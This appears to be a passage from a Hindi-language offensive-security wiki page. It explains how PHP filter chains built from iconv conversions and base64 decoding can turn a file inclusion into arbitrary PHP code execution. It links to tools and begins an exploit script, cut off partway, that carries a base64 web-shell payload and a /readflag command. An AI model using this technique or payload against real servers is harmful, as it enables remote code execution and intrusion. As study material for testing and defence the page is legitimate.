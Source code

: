Deepen your expertise in **Mobile Security** with 8kSec Academy. Master iOS and Android security through our self-paced courses and get certified:

{% embed url="https://academy.8ksec.io/" %}


## Intro

यह [**writeup** ](https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d) बताता है कि आप **php filters का उपयोग करके मनमाना सामग्री** आउटपुट के रूप में उत्पन्न कर सकते हैं। जिसका अर्थ है कि आप **मनमाना php कोड** शामिल करने के लिए **बिना इसे एक फ़ाइल में लिखे** उत्पन्न कर सकते हैं।

स्क्रिप्ट का लक्ष्य **फाइल के प्रारंभ में एक Base64** स्ट्रिंग उत्पन्न करना है जो अंततः **डिकोड** किया जाएगा, जिससे वांछित पेलोड प्राप्त होगा जिसे **`include` द्वारा व्याख्यायित** किया जाएगा।

यह करने के लिए आधार हैं:

* `convert.iconv.UTF8.CSISO2022KR` हमेशा स्ट्रिंग के साथ `\x1b$)C` को जोड़ देगा
* `convert.base64-decode` अत्यधिक सहिष्णु है, यह मूल रूप से किसी भी वर्ण को अनदेखा कर देगा जो मान्य base64 नहीं है। यदि यह अप्रत्याशित "=" पाता है तो यह कुछ समस्याएँ देता है लेकिन उन्हें `convert.iconv.UTF8.UTF7` फ़िल्टर के साथ हटा दिया जा सकता है।

मनमानी सामग्री उत्पन्न करने के लिए लूप है:

1. हमारे स्ट्रिंग के साथ `\x1b$)C` को जोड़ें जैसा कि ऊपर वर्णित है
2. कुछ iconv परिवर्तनों की श्रृंखला लागू करें जो हमारी प्रारंभिक base64 को बरकरार रखती है और उस भाग को परिवर्तित करती है जिसे हमने अभी जोड़ा है, एक स्ट्रिंग में जहां केवल मान्य base64 वर्ण हमारे base64-कोडित php कोड का अगला भाग है
3. स्ट्रिंग को base64-डिकोड और base64-एन्कोड करें जो बीच में किसी भी गंदगी को हटा देगा
4. 1 पर वापस जाएं यदि base64 जिसे हम बनाना चाहते हैं वह अभी तक पूरा नहीं हुआ है
5. हमारे php कोड प्राप्त करने के लिए base64-डिकोड करें

{% hint style="warning" %}
**Includes** आमतौर पर फ़ाइल के अंत में **".php" जोड़ने** जैसी चीजें करते हैं, जो इस शोषण को कठिन बना सकता है क्योंकि आपको एक .php फ़ाइल खोजनी होगी जिसमें ऐसा सामग्री हो जो शोषण को नष्ट न करे... या आप **बस `php://temp` को संसाधन के रूप में उपयोग कर सकते हैं** क्योंकि इसमें **नाम में कुछ भी जोड़ा जा सकता है** (जैसे +".php") और यह अभी भी शोषण को काम करने की अनुमति देगा!
{% endhint %}

## How to add also suffixes to the resulting data

[**यह writeup बताता है**](https://www.ambionics.io/blog/wrapwrap-php-filters-suffix) कि आप PHP फ़िल्टर का उपयोग करके परिणामस्वरूप स्ट्रिंग में उपसर्ग कैसे जोड़ सकते हैं। यह तब महान है जब आपको आउटपुट को किसी विशिष्ट प्रारूप (जैसे json या शायद कुछ PNG मैजिक बाइट्स जोड़ना) में होना चाहिए।

## Automatic Tools

* [https://github.com/synacktiv/php\_filter\_chain\_generator](https://github.com/synacktiv/php\_filter\_chain\_generator)
* [**https://github.com/ambionics/wrapwrap**](https://github.com/ambionics/wrapwrap) **(उपसर्ग जोड़ सकता है)**

## Full script
```python
import requests

url = "http://localhost/index.php"
file_to_use = "php://temp"
command = "/readflag"

#<?=`$_GET[0]`;;?>
base64_payload = "PD89YCRfR0VUWzBdYDs7Pz4"

conversions = {
'R': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2',
```